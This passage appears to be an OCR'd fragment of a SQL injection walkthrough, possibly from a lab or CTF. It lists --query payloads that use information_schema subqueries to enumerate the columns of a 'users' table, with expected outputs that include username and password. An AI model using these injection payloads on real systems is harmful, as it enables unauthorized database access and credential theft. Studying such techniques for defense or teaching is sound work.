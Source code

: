 
***

**Column 2:**

```bash
--query "(SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 1 OFFSET 1)"
```

**Expected Output:**

```
username
```

✅ Found username column!

***

**Column 3:**

```bash
--query "(SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 1 OFFSET 2)"
```

**Expected Output:**

```
password
```

✅ Found password column!

***

**Column 4:**

```bash
--query "(SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 1 OFFSET 3)"
```

**Expected Output:**

```
email
```


***

**Column 5:**

```bash
--query "(SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 1 OFFSET 4)"
```

**Expected Output:**

```
created_at
```
